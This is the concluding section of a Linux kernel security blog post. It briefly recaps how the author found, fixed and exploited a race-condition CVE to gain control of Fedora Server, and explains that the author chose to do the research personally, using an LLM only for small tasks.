<center></center><br>

## Final thoughts

In this article, I described how I found, fixed in the upstream kernel, and exploited CVE-2026-31695 -- an interesting race condition in the Linux kernel that was caused by a logical bug in the network device management. I managed to bypass the security hardening mechanisms and gain full control over Fedora 44 Server by spoofing a `struct device`. I also shared how I made the attack absolutely stable, despite the elusive race condition.

Some readers may ask whether I used LLMs and AI agents to do this research and write the article. I only used an open-weight LLM to reverse-engineer netlink blobs and to find typos in the article (two boring tasks). **But why?**

I did this research myself **because it was a pleasure for me** and I simply don't want to give it away. Even writing the article was a nice cognitive activity -- I got many insights and spotted interesting details while composing it.

I also experiment with LLMs and AI-agents in the Linux kernel security area to learn their strengths and limitations, but it is a completely different story. I want robots to wash the dishes and sort garbage, while I do creative work. The opposite would be sad: I don't want to sort garbage (AI slop), while the agent does creative work.

That's why I did this research myself. I hope you enjoyed this article. Thanks for reading 👍!
